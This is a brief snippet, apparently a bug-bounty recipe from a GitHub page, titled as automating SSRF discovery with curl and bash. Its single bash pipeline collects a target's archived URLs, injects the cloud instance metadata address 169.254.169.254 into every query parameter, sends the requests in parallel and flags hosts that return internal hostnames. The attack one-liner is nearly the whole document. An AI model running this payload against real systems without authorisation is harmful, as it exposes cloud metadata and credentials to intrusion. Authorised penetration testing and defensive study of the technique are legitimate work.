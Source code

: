 
## Accessing SSRF metadata with automation by just using curl and bash

**Command for getting URLs**
```bash
waybackurl target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u |anew | httpx -silent | qsreplace 'http://169.254.169.254/latest/meta-data/hostname' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```
